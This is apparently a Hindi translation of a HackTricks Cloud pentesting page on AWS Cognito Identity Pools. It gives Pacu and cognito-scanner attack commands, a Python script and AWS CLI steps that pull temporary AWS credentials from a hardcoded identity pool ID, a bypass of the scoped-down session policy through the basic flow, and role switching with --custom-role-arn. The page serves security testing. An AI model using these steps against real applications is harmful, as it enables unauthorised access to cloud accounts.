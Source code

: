 # कोग्निटो आईडेंटिटी पूल

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स को** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PR जमा करके साझा करें।

</details>

## मूलभूत जानकारी

एक आईडेंटिटी पूल के साथ, आपके उपयोगकर्ताओं को **AWS सेवाओं तक पहुंच के लिए अस्थायी AWS क्रेडेंशियल प्राप्त करने** की सुविधा होती है, जैसे Amazon S3 और DynamoDB. आईडेंटिटी पूल अनाम अतिथि उपयोगकर्ताओं का समर्थन करते हैं, साथ ही निम्नलिखित पहचान प्रदाताओं का समर्थन करते हैं जिनका उपयोग आप आईडेंटिटी पूल के लिए उपयोगकर्ताओं को प्रमाणित करने के लिए कर सकते हैं:

* Amazon Cognito उपयोगकर्ता पूल
* Facebook, Google, Amazon लॉगिन के साथ सामाजिक साइन-इन और Apple साइन-इन के साथ साइन-इन
* OpenID Connect (OIDC) प्रदाताओं
* SAML पहचान प्रदाताओं
* डेवलपर प्रमाणित पहचान

### Cognito Sync

आईडेंटिटी पूल सत्रों को उत्पन्न करने के लिए, पहले आपको **आईडेंटिटी आईडी उत्पन्न करनी** होगी। यह आईडेंटिटी आईडी उपयोगकर्ता के सत्र की पहचान है। इन पहचानों में 20 डेटासेट हो सकते हैं जिनमें 1MB की कुंजी-मान-जोड़ी संग्रहित की जा सकती है।

यह **उपयोगकर्ता की जानकारी को रखने के लिए उपयोगी है** (जो हमेशा एक ही आईडेंटिटी आईडी का उपयोग करेगा)।

इसके अलावा, सेवा **cognito-sync** वह सेवा है जो इस जानकारी को **प्रबंधित और सिंक्रनाइज़ करने की सुविधा प्रदान करती है** (डेटासेट में, स्ट्रीम में जानकारी भेजने और SNSs संदेशों में)।

### पेंटेस्टिंग और एनुमरेशन के लिए Pacu मॉड्यूल

[Pacu](https://github.com/RhinoSecurityLabs/pacu), AWS शोषण ढांचा, अब "cognito__enum" और "cognito__attack" मॉड्यूल शामिल करता है जो खाते में सभी Cognito संपत्तियों के जांच को स्वचालित करता है और कमजोर कॉन्फ़िगरेशन, पहुंच नियंत्रण के लिए उपयोग किए जाने वाले उपयोगकर्ता गुण, आदि को चिह्नित करता है, और साथ ही उपयोगकर्ता निर्माण (MFA समर्थन सहित) और सुविधा उन्नयन को स्वचालित करता है जो संशोधन योग्य कस्टम गुणों, उपयोगी आईडेंटिटी पूल क्रेडेंशियल, आईडी टोकन में अस्सुमेबल भूमिकाएं, आदि पर आधारित हैं।

मॉड्यूल के कार्यों का विवरण के लिए भाग 2 के [ब्लॉग पोस्ट](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2) को देखें। स्थापना निर्देशों के लिए मुख्य [Pacu](https://github.com/RhinoSecurityLabs/pacu) पेज देखें।

### उपयोग

एक दिए गए आईडेंटिटी पूल और उपयोगकर्ता पूल क्लाइंट के खिलाफ उपयोगकर्ता निर्माण और सभी प्रिवेस्क वेक्टर्स की कोशिश करने के लिए cognito__attack उपयोग का नमूना:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
वर्तमान AWS खाते में दिखाई देने वाले सभी उपयोगकर्ता पूल, उपयोगकर्ता पूल क्लाइंट, पहचान पूल, उपयोगकर्ता आदि को इकट्ठा करने के लिए cognito__enum का उपयोग करने का नमूना:
```bash
Pacu (new:test) > run cognito__enum
```
### पेंटेस्टिंग के लिए टूल

[Cognito Scanner](https://github.com/padok-team/cognito-scanner) एक CLI टूल है जो पायथन में बनाया गया है और जिसमें Cognito पर विभिन्न हमले शामिल हैं, जैसे अनचाहे खाता बनाना और आईडेंटिटी पूल को बढ़ावा देना।

#### स्थापना
```bash
$ pip install cognito-scanner
```
#### उपयोग

#### Usage

#### उपयोग
```bash
$ cognito-scanner --help
```
अधिक जानकारी के लिए https://github.com/padok-team/cognito-scanner पर जांच करें

## IAM रोल तक पहुंच

### अप्रमाणित

कोग्निटो ऐप में एक हमलावर्धी को यह जानने के लिए कि अप्रमाणित उपयोगकर्ता के रूप में **AWS क्रेडेंशियल प्राप्त करने** के लिए क्या चाहिए, वह एकमात्र चीज है **Identity Pool ID**, और इस **ID को हार्डकोड** किया जाना चाहिए वेब/मोबाइल **एप्लिकेशन** में इसका उपयोग करने के लिए। एक ID इस तरह से दिखता है: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (इसे ब्रूटफोर्स नहीं किया जा सकता है)।

{% hint style="success" %}
डिफ़ॉल्ट रूप से बनाए गए **IAM कोग्निटो अप्रमाणित रोल को** `Cognito_<Identity Pool name>Unauth_Role` कहा जाता है
{% endhint %}

यदि आपको हार्डकोड इंटिटी पूल ID मिलता है और यह अप्रमाणित उपयोगकर्ताओं को अनुमति देता है, तो आप निम्नलिखित के साथ AWS क्रेडेंशियल प्राप्त कर सकते हैं:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
या आप निम्नलिखित **aws cli commands** का उपयोग कर सकते हैं:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
ध्यान दें कि डिफ़ॉल्ट रूप से एक अप्रमाणित cognito **उपयोगकर्ता को कोई अनुमति नहीं हो सकती है, यदि यह नीति के माध्यम से निर्धारित की गई हो**। निम्न खंड की जांच करें।
{% endhint %}

### Enhanced vs Basic Authentication flow

पिछले खंड में **डिफ़ॉल्ट एन्हांस्ड प्रमाणीकरण फ़्लो** का पालन किया गया। यह फ़्लो एक **संकीर्ण** [**सत्र नीति**](../../aws-basic-information/#session-policies) को आईएएम रोल सत्र जेनरेट किया जाता है। यह नीति केवल इस सत्र को [**इस सूची से सेवाओं का उपयोग करने की अनुमति देगी**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (यदि रोल को अन्य सेवाओं का उपयोग करने की अनुमति होती है तो भी)।

हालांकि, यदि **आईडेंटिटी पूल में "बेसिक (क्लासिक) फ़्लो" सक्षम है**, तो उपयोगकर्ता उस फ़्लो का उपयोग करके एक सत्र प्राप्त कर सकेगा जिसमें **वह संकीर्ण सत्र नीति नहीं होगी**।

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
यदि आपको यह **त्रुटि** मिलती है, तो इसका कारण है कि **मूल फ्लो (डिफ़ॉल्ट) सक्षम नहीं है**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

आपके पास IAM क्रेडेंशियल्स का एक सेट होने पर आपको [जांचना चाहिए](../../#whoami) कि आपके पास कौनसा एक्सेस है और [वृद्धि अधिकार](../../aws-privilege-escalation/) का प्रयास करें।

### प्रमाणित

{% hint style="info" %}
ध्यान दें कि **प्रमाणित उपयोगकर्ताओं** को संभवतः **विभिन्न अनुमतियाँ** प्रदान की जाएंगी, इसलिए यदि आप **ऐप के अंदर साइन अप कर सकते हैं**, तो उसे करने का प्रयास करें और नए क्रेडेंशियल प्राप्त करें।
{% endhint %}

इसके अलावा, **प्रमाणित उपयोगकर्ताओं** के लिए **रोल** भी उपलब्ध हो सकते हैं जो आईडेंटिटी पूल तक पहुंचते हैं।

इसके लिए आपको **आईडेंटिटी प्रदाता** तक पहुंच होनी चाहिए। यदि वह एक **Cognito उपयोगकर्ता पूल** है, शायद आप डिफ़ॉल्ट व्यवहार का दुरुपयोग कर सकते हैं और **नया उपयोगकर्ता खुद बना सकते हैं**।

{% hint style="success" %}
**IAM Cognito प्रमाणित रोल जिसे डिफ़ॉल्ट रूप से बनाया जाता है**, उसका नाम है `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

फिर भी, **निम्नलिखित उदाहरण** की उम्मीद है कि आपने पहले से ही एक **Cognito उपयोगकर्ता पूल** में लॉग इन कर लिया है जिसे आईडेंटिटी पूल तक पहुंच के लिए उपयोग किया जाता है (याद रखें कि अन्य प्रकार के आईडेंटिटी प्रदाताओं को भी कॉन्फ़िगर किया जा सकता है)।

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Get the identity_id from the previous commnad response
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# In the IdToken you can find roles a user has access because of User Pool Groups
# User the --custom-role-arn to get credentials to a specific role
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
**यह संभव है कि आईडेंटिटी प्रदाता के आधार पर विभिन्न IAM रोल कॉन्फ़िगर किए जा सकते हैं**, उपयोगकर्ता लॉग इन हो रहा है या केवल **उपयोगकर्ता** पर निर्भर करता है (क्लेम का उपयोग करके)। इसलिए, यदि आपके पास एक ही या अलग-अलग प्रदाताओं के माध्यम से विभिन्न उपयोगकर्ताओं तक पहुंच है, तो शायद यह उपयोगी हो सकता है कि आप लॉग इन करें और उन सभी के IAM रोल तक पहुंचें।
{% endhint %}

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS की नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं**, तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>
